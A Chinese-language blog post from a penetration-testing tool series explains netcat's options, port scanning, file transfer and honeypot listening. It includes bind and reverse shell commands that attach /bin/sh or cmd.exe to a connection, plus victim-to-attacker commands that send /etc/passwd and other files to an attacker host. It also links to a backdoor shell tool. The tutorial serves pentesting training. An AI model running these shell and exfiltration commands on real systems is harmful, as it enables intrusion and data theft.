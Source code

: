 ```yaml
---
title: 【渗透神器系列】nc
date: 2017-04-10 10:36:01
comments: true
tags:
- nc
- 渗透神器
categories: 安全工具
permalink: 01
---
```

<blockquote class="blockquote-center">工欲善其事，必先利其器</blockquote>
　　从事渗透测试工作几年了，在做项目过程中发现良好的渗透技术固然重要，但欲测试出更多的结果，离不开强大的工具。即使是能力超强的大牛，我想也不可能完全手工做渗透，毕竟渗透测试还是个体力活。
　　现在有些人认为渗透测试越来越简单了，因为开源的自动化工具一大推，轮子也是更新换代。即使对安全一窍不通，只要上工具一跑也能获得很多漏洞，甚至自动化获取权限。我必须得承认目前层出不穷的自动化渗透工具已降低了这个行业的入门门槛，但这不意味着渗透测试工作日趋简单。
<!--more -->
　　首先我的理由是安全攻防永远是此消彼长，技术从未停滞过，安全技术永远领先于安全工具，因此只会使用工具，有时会使渗透测试工作很难开展下去，因为防护手段日益更新，而攻击技术却只能依赖滞后的工具，这样的测试效果可见一斑。其次是目前市面上强大的渗透工具，都需要一定的使用基础，绝非傻瓜式的操作，想要用好一款神器，也并非易事。综上所述，我个人认为目前渗透测试工作的难度反而会更大，并且随着国家企业对安全的重视，渗透测试从业者肩上的担子也只会更重。
　　开篇扯了半天蛋无非是想引出本系列的主题——渗透神器，之所以想要介绍记录渗透测试中使用的神器，是因为*工欲善其事，必先利其器*，仅此而已！
　　本篇作为此系列第一篇，将介绍一款渗透界经久不衰的神器，有瑞士军刀美誉的NC。本篇所记内容大部分来自互联网，如觉内容老套可自行绕道，本人尽量全方面记录NC的使用方法，全当个人查询之用，轻喷即可。

### nc Introduce
nc全称netcat,是网络工具中的瑞士军刀，它能通过TCP和UDP在网络中读写数据，功能强大。

### nc Install
linux/mac上默认安装nc，可在命令行下输入nc -h查看。
windows下可下载nc.exe工具使用。

### nc Usage

#### 基本用法
可以输入nc -h查看帮助：
> -h 查看帮助信息 
-d 后台模式 
-g gateway source-routing hop point[s], up to 8
-G num source-routing pointer: 4, 8, 12, ...
-e prog程序重定向，一但连接就执行［危险］ 
-i secs延时的间隔 
-l 监听模式，用于入站连接 
-L 监听模式，连接天闭后仍然继续监听，直到CTR+C 
-n IP地址，不能用域名(不使用DNS反向查询IP地址的域名)
-o film记录16进制的传输 
-p[空格]端口 本地端口号 
-s addr 本地源地址
-r 随机本地及远程端口 
-t 使用Telnet交互方式 
-u UDP模式 
-v 详细输出，用-vv将更详细 
-w 数字 timeout延时间隔 
-z 将输入，输出关掉（用于扫锚时）

#### PortScan(端口扫描)
基本tcp扫描：
```bash
nc -vv ip port
例：nc -vv 192.168.1.1 5000 扫描192.168.1.1的tcp 5000端口
```
设置延时，指定端口扫描：
```bash
nc -vv -w secs ip port-port
例：nc -vv -w 5 192.168.1.1 5000-5002 扫描192.168.1.1的5000-5002端口，网络超时的时间设为5秒。
```
#### 建立连接
##### 正向连接
目标监听一个端口：
```bash
nc -l -p port -e cmd.exe //windows
nc -l -p port -e /bin/sh //linux
```
本机去连接此端口：
```bash
nc ip port 
```
##### 反向链接
本机监听一个端口：
```bash
nc -vv -l -p port
```
目标连接此端口：
```bash
nc -e cmd.exe ip port //windows
nc -e /bin/sh ip port //linux
```
#### 传送文件
##### 目标机上下载文件
```bash
victim machine:
nc attack_ip port <  /etc/passwd
attacker machine:
nc -d -l -p  port  >  tmp
```
实例：
本机作为目标机，因为是内网ip，模拟现实情况，113.214.238.185为攻击机，现在就是要从目标机上下载文件到攻击机上。
目标机：nc.exe 113.214.238.185 9999 < H:\test.txt 将目标机H盘下test.txt文件传输到攻击机9999端口上
攻击机：nc.exe -d -l -p 9999 > test.txt 将本机9999端口传输过来的文件重命名为test.txt

##### 上传文件至目标机
```bash
attacker machine:
nc -d -l -p port < tmp
victim machine:
nc attack_ip port > tmp
```
实例：
攻击机：nc -d -l -p 9990 < test2.txt
目标机：nc 113.214.238.185 9990 > test2.txt

#### 端口数据抓包
```bash
nc -vv -w 2 -o test.txt thief.one 80 21-15
```
#### 自定义
配合|<等命令，可无限放大NC的功能。

##### 加密传输的数据
服务端：$nc localhost 1567 | mcrypt –flush –bare -F -q -d -m ecb > file.txt
客户端：$mcrypt –flush –bare -F -q -m ecb < file.txt | nc -l 1567

##### 目录传输
目标机：$tar -cvf – dir_name | nc -l 1567
攻击机：$nc -n 10.0.0.2 1567 | tar -xvf -

##### 命令记录
```bash
nc -vv victim_ip port < path\file.cmd
```
##### 搭建蜜罐
* nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止 
* nc -L -p 80 > c:\log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:\log.txt 
* nc -L -p 80 < c:\honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中，亦可起到传送文件作用 
* type.exe c:\honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:\honeyport.txt中内容送入管道中,亦可起到传送文件作用 

### 类nc工具
* ncat 安装nmap后默认安装ncat，用法于nc类似。
* [Pyshell](http://thief.one/2016/09/05/PyShell-%E6%9C%A8%E9%A9%AC%E5%90%8E%E9%97%A8/) 致敬nc的一款后门shell工具。

### 传送门
[【渗透神器系列】Fiddler](http://thief.one/2017/04/27/1)
[【渗透神器系列】nmap](http://thief.one/2017/05/02/1/)


参考文章：
https://www.oschina.net/translate/linux-netcat-command
http://www.w3cschool.cn/dosmlxxsc1/jiszug.html


>转载请说明出处:[【渗透神器系列】nc | nMask'Blog](http://thief.one/2017/04/10/1/)
本文地址：http://thief.one/2017/04/10/1/






